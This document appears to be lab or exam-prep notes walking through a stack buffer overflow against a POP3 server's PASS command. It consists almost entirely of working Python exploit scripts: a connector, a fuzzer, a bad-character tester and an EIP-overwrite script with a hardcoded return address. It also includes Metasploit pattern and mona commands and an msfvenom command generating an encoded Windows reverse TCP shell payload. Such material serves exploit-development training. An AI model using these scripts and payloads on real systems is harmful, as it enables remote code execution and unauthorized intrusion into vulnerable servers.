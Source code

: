 # bofwalkthrough
CONNECT
#!/usr/bin/python

import socket 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
try:
         print "\nSending evil buffer..."
         s.connect(('10.0.0.22',110))            # connect to IP, POP3 port
         data = s.recv(1024)                     # receive banner
         print data                              # print banner   
 
         s.send('USER test' +'\r\n')             # send username "test"
         data = s.recv(1024)                     # receive reply
         print data                              # print reply 
 
         s.send('PASS test\r\n')                 # send password "test"
         data = s.recv(1024)                     # receive reply
         print data                              # print reply 
 
         s.close()                               # close socket
         print "\nDone!"
except:
    print "Could not connect to POP3!"

FUZZ


#!/usr/bin/python
import socket

#Create an array of buffers, from 1 to 5900 with increments of 200.
buffer = ["A"]
counter = 100
while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200

for string in buffer:
    print "Fuzzing PASS with %s bytes" % len(string)
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect(('10.11.14.144',110))
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS ' + string + '\r\n')
    s.send('QUIT\r\n')
    s.close()

Find EIP
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q  

Badchars

#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" 
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" 
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" 
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" 
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" 
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" 
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" 
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" 
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" 
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" 
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" 
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" 
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" 
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" 
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" 
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" ) 

buffer ="A"*2606 + "B"*4 + badchars

try:
    print "\nSending evil buffer..."
    s.connect(('10.11.14.144',110))
    data = s.recv(1024)
    s.send('USER username' +'\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    s.close()
    print "\nDone!"
except:
    print "Could not connect to POP3!"

!mona modules

jmp esp

push esp
retn

ruby /usr/share/metasploit-framework/tools/nasm_shell.rb
add eax,12
jmp eax

!mona find -s "\xff\xe4" -m slmfc.dll (mona find jmp esp in .dll file)


#!/usr/bin/python

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buf = "A" * 2606 + "\x5f\x4a\x35\x8f" + "C" *(3500 - 2606 - 4)

try:
    print "\nSending evil buffer..."
    s.connect(('10.11.14.144',110))
    data = s.recv(1024)
    print data

    s.send('USER test' +'\r\n')
    data = s.recv(1024)
    print data

    s.send('PASS ' + buf + '\r\n')
    data = s.recv(1024)
    print data

    s.close()
    print "\nDone!"

except:
    print "Could not connect to POP3!"

 msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
